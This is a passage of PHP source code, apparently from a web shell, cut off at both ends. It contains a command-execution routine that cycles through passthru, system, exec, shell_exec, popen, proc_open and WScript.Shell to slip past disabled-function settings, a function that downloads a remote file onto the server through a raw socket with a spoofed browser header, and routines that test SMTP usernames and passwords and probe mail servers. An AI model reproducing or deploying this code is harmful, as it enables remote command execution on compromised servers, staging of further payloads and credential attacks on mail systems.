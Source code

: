 global $windows,$disablefunctions;
$exec = '';$output= '';
$dep[]=array('pipe','r');$dep[]=array('pipe','w');
if(is_callable('passthru') && !strstr($disablefunctions,'passthru')){ @ob_start();passthru($command);$exec=@ob_get_contents();@ob_clean();@ob_end_clean();}
elseif(is_callable('system') && !strstr($disablefunctions,'system')){$tmp = @ob_get_contents(); @ob_clean();system($command) ; $output = @ob_get_contents(); @ob_clean(); $exec= $tmp; }
elseif(is_callable('exec') && !strstr($disablefunctions,'exec')) {exec($command,$output);$output = join("\n",$output);$exec= $output;}
elseif(is_callable('shell_exec') && !strstr($disablefunctions,'shell_exec')){$exec= shell_exec($command);}
elseif(is_resource($output=popen($command,"r"))) {while(!feof($output)){$exec= fgets($output);}pclose($output);}
elseif(is_resource($res=proc_open($command,$dep,$pipes))){while(!feof($pipes[1])){$line = fgets($pipes[1]); $output.=$line;}$exec= $output;proc_close($res);}
elseif ($windows && is_object($ws = new COM("WScript.Shell"))){$dir=(isset($_SERVER["TEMP"]))?$_SERVER["TEMP"]:ini_get('upload_tmp_dir') ;$name = $_SERVER["TEMP"].namE();$ws-&gt;Run("cmd.exe /C $command &gt;$name", 0, true);$exec = file_get_contents($name);unlink($name);}
return $exec;
}
function downloadiT($get,$put){
$fo=@strtolower(ini_get('allow_url_fopen'));
if($fo || $fo=='on')$con=file_get_contents($get);
else{
$u=parse_url($get);
$host=$u['host'];$file=(!empty($u['path']))?$u['path']:'/';
$url=fsockopen($host, 80, $en, $es, 12);
fputs($url, "GET $file HTTP/1.0\r\nAccept-Encoding: text\r\nHost: $host\r\nReferer: $host\r\nUser-Agent: Mozilla/5.0 (compatible; Konqueror/3.1; FreeBSD)\r\n\r\n");
$tmp=$con='';
while($tmp!="\r\n")$tmp=fgets($url);
while(!feof($url))$con.=fgets($url);
}
$mk=file_put_contents($put,$con);
if($mk)return 1;
return 0;
}
function smtplogiN($addr,$user,$pass,$timeout){
$sock=fsockopen($addr,25,$n,$s,$timeout);
if(!$sock)return -1;
fread($sock,1024);
fputs($sock,'ehlo '.namE()."\r\n");
$res=substr(fgets($sock,512),0,1);
if($res!='2')return 0;
fgets($sock,512);fgets($sock,512);fgets($sock,512);
fputs($sock,"AUTH LOGIN\r\n");
$res=substr(fgets($sock,512),0,3);
if($res!='334')return 0;
fputs($sock,base64_encode($user)."\r\n");
$res=substr(fgets($sock,512),0,3);
if($res!='334')return 0;
fputs($sock,base64_encode($pass)."\r\n");
$res=substr(fgets($sock,512),0,3);
if($res!='235')return 0;
return 1;
}
function checksmtP($host,$timeout){
$from=strtolower(namE())."@".strtolower(namE()).".com";
$sock=@fsockopen($host,25,$n,$s,$timeout);
if(!$sock)return -1;
$res=substr(fgets($sock,512),0,3);
if($res!='220')return 0;
fputs($sock,'HELO '.namE()."\r\n");
$res=substr(fgets($sock,512),0,3);